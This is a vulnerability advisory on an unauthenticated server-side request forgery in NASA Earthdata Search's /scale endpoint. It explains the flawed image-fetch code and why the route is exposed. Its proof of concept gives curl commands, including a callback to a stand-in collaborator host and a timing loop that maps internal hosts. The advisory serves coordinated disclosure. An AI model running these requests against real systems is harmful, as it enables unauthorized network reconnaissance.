



<div align="center">
  <a href="https://www.thoropass.com/" target="_blank" rel="noopener noreferrer">
    
  </a>
  <br><br>
  <a href="https://www.thoropass.com/talk-to-an-expert" target="_blank" rel="noopener noreferrer">
    
  </a>
  <a href="https://www.linkedin.com/company/thoropass/" target="_blank" rel="noopener noreferrer">
    
  </a>

  <h1>Unauthenticated SSRF and Internal Host Discovery in NASA Earthdata Search</h1>

  <p>🔐 <strong>Thoropass Vulnerability Research Program</strong> 🧪</p>
</div>

<div align="center">

  
  
</div>

---

## Advisory Information

| &nbsp; | &nbsp; |
|:---|:---|
| **Researcher** | [Natan Morette](https://www.linkedin.com/in/nmmorette/) on behalf of [Thoropass](https://thoropass.com) |
| **Product** | [NASA Earthdata Search](https://github.com/nasa/earthdata-search) - web application developed by NASA EOSDIS for discovering, visualizing, and downloading Earth science data |
| **Affected Version** | 1.0.0 and all prior versions (master HEAD `bd935b23f`) |
| **Endpoint** | `serverless/src/scaleImage/handler.js`, `scaleImage` (route `GET /scale`) |
| **Vulnerability Type** | CWE-918: Server-Side Request Forgery (SSRF) |
| **CVE ID** | *Pending assignment* |


## Vulnerability Summary

`GET /scale?imageSrc=<URL>` makes the server fetch any attacker-supplied URL, with no authentication and no validation of the URL. On its own this looks like a harmless blind SSRF, the response is always the same default image. It is not harmless. Because the endpoint runs inside NASA's cloud environment, the same primitive lets an unauthenticated attacker use the server as a proxy into the internal network it sits in, and the response timing reveals which internal, otherwise-unreachable hosts are alive. An external attacker maps the internal network one request at a time.


## Technical Analysis

### Vulnerable Code

**File:** `serverless/src/scaleImage/utils/downloadImageFromSource.js`, lines **9-19**

```js
export const downloadImageFromSource = async (imageUrl) => {
  const response = await axios({
    url: imageUrl,          // attacker-controlled, no scheme / host / IP validation
    method: 'get',
    responseType: 'arraybuffer',
    timeout: requestTimeout()
  })
  return response.data
}
```

### Root Cause

The `scaleImage` handler reads `imageSrc` straight from the query string and passes it to `downloadImageFromSource`, which fetches it with `axios`. There is no allowlist of expected image hosts, no rejection of private or link-local ranges (`127.0.0.0/8`, `169.254.0.0/16`, RFC1918), and `axios` follows redirects by default, so even a benign-looking URL can `302` to an internal target.

The route is public. In `cdk/earthdata-search/lib/earthdata-search-functions.ts` the `ScaleImageLambda` API method (`path: 'scale'`, method `GET`) is declared with no `authorizer` property, so its API Gateway AuthorizationType is `NONE`. Sibling routes in the same file set `authorizer: authorizers.edlAuthorizer`, this one does not.

On any fetch failure the handler catches the error and returns a default "unavailable" image with HTTP 200. The status code is therefore constant and useless to an observer, but the response latency is not: a reachable host answers in milliseconds, a filtered or non-existent one hangs until `requestTimeout()` fires. That timing gap is a reliable oracle for internal reachability.


## Proof of Concept

### Evidence 1: the SSRF

Point `imageSrc` at a collaborator you control and send one unauthenticated request:

```bash
curl -s -o /dev/null -w "HTTP %{http_code}\n" \
  "https://TARGET/scale?imageSrc=http://your-collaborator.example/-/edsc-ssrf&w=10&h=10"
# -> HTTP 200
```

The server calls out to the attacker URL. The captured callback, note the `axios` User-Agent, which is the server's own HTTP client:

```
GET /-/edsc-ssrf HTTP/1.1
Host: your-collaborator.example
User-Agent: axios/1.18.0
```



At this point most people rate it a blind SSRF, low impact, the endpoint just proxies an image fetch. That conclusion is wrong.

### Evidence 2: internal host discovery

The status is always 200, but the response time is not. The server's fetch connects or is refused fast for a reachable host, and hangs until the timeout for a dark host. An unauthenticated attacker turns that into an internal network map.

To prove it across a real trust boundary (not a shared LAN or a shared loopback), the primitive was exercised in a production-like topology: the server has one foot on the public edge and one foot on an isolated internal subnet the attacker cannot route to. In the lab this is a Docker `--internal` network `172.30.0.0/24` (no external route), with back-end hosts `172.30.0.10` and `172.30.0.11` up and the rest dark.

First, confirm the attacker has no path to the internal subnet directly:

```bash
# from the attacker host
curl -s -o /dev/null -w "%{http_code}\n" -m 5 http://172.30.0.10/
# -> 000 : unreachable
```



Then, through the public endpoint only, classify internal hosts by response time:

```bash
for t in 172.30.0.10 172.30.0.11 172.30.0.12 172.30.0.20 172.30.0.50; do
  printf "%-14s " "$t"
  curl -s -o /dev/null -w "%{time_total}s\n" -m 10 "http://TARGET:8002/scale?imageSrc=http://$t/"
done
```

Observed:

```
172.30.0.10    0.017390s   -> alive
172.30.0.11    0.005105s   -> alive
172.30.0.12    3.055125s   -> dark (timeout)
172.30.0.20    3.059294s   -> dark (timeout)
172.30.0.50    3.118222s   -> dark (timeout)
```



The attacker has zero route to `172.30.0.0/24`, yet through `/scale` it correctly picks out which internal hosts are alive (`.10`, `.11`) versus dark (`.12`, `.20`, `.50`). This is unauthenticated internal host discovery, from outside, using the server as a proxy. Sweeping a range this way maps the internal network.

This is host discovery, not a port scan: on a reachable host a closed port answers with a fast reset just like an open one, so timing separates alive hosts from dark ones, not open ports from closed ones.


## Impact

- **Internal network mapping**: an unauthenticated, remote attacker enumerates which internal, otherwise-unreachable hosts are alive from the server's position inside the cloud environment, by timing `/scale` responses.
- **Reach to internal-only services**: the server acts as an SSRF proxy to databases, caches, internal load balancers, and admin or metrics endpoints that are not exposed to the internet.
- **Redirect pivot**: because `axios` follows redirects, an allowed-looking URL can `302` the server to an internal target.
- **No credentials required**: the route has no authorizer, so the entire capability is available pre-authentication.


## References

- [CWE-918: Server-Side Request Forgery (SSRF)](https://cwe.mitre.org/data/definitions/918.html)
- [OWASP API Security Top 10 - API7:2023 Server-Side Request Forgery](https://owasp.org/API-Security/editions/2023/en/0xa7-server-side-request-forgery/)
- [OWASP Top 10 - A10:2021 Server-Side Request Forgery](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)


## ⚠️ Disclaimer

The vulnerability was identified through authorized security testing. The proof of concept is provided to help defenders validate their exposure and verify remediation.

Thoropass follows **coordinated vulnerability disclosure (CVD)** principles. Vulnerabilities are reported privately to maintainers, reasonable time is provided for remediation, and public advisories are released after coordination or fix availability.


## About Thoropass
Thoropass delivers enterprise-grade audits with AI-native speed and precision. Designed from day one to integrate auditors, automation, and infosec workflows in a single, closed-loop system, no add-ons, no handoffs.

Our experienced penetration testing team proactively discovers vulnerabilities in web applications, APIs, and infrastructure, helping organizations secure their systems before attackers find weaknesses.

<div align="center">
  <br>

  **Thoropass Vulnerability Research Program**

  <em>Improving ecosystem security through responsible research and disclosure.</em>

  <br><br>
  <a href="https://thoropass.com/contact" target="_blank" rel="noopener noreferrer">
    
  </a>
  <br><br>
  <a href="https://www.thoropass.com/platform/penetration-testing" target="_blank" rel="noopener noreferrer">
    
  </a>
  <a href="https://www.linkedin.com/company/thoropass/" target="_blank" rel="noopener noreferrer">
    
  </a>
</div>

---

<div align="center">
  <br><br>
  <a href="https://www.thoropass.com/talk-to-an-expert" target="_blank" rel="noopener noreferrer">
    
  </a>
</div>
